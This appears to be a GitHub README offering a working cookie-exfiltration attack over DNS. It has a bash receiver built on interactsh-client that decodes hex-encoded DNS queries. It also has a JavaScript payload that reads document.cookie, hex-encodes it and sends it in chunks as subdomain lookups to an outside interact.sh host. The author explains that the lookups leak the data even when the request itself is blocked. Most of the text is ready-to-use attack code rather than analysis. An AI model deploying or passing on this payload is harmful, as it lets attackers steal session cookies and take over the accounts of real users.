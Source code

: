 ## Reciever

The following payload will set up a DNS listener (using interactsh by project discovery) and sequentially handle the output to transform the DNS queries containing fragments of cookies (that will be sent by the attacker payload) into readable ASCII characters.

> Note: The dns queries will obey the following pattern: hexacode.yourdomain

#### bash Command

```
interactsh-client | tee -a saida  | tr -d '[]' | cut -f1 -d ' ' | xargs -I@ bash -c 'echo @ | xxd -r -p'
```

## Payload attacker
The payload below will convert all cookies present on the current page into multiple requests (using fetch function from JS), attempting to call your malicious server, which will be listining for DNS queries. 
The trickest and coolest part here is that, if for some reason, the client-side block the GET request from the client-side to be made, with this payload the browser probably has already started a DNS lookup to check if the host provided is alive to be fetched. Then, we can exploit this behavior to gain some advantages. 

#### JS Command

```
t=40;dm='cb364rdve0qv08pghjmgcmdgr5eyyyyyn.interact.sh';k2="-None";d=document;c=d.cookie;function v(dm, d, c){m="";for(var x in c){k=Math.random().toString(36).substring(7);m=m.concat(c.charCodeAt(x).toString(16).padStart(2,0))};iter=[];p=0;x=0;it=(m.length/t);for(i=[];i.length<=it;){i.push(1);iter.push(m.slice(iter.length*t,i.length*t));};for(var o in iter){danger='https://fma6mqp.1wxyg8.sdrv2.fcnoh2'.replace('fma6mqp',iter[o]).replace('1wxyg8',o).replace('sdrv2',k.concat(k2)).replace('fcnoh2',dm);var xhttp = new XMLHttpRequest();xhttp.open("GET", danger);xhttp.send();};};v(dm,d,c)
```

#### Thanks

https://github.com/gum0x/rascal (that JS payload was inspired (~copied~) from here. I've only made some changes)
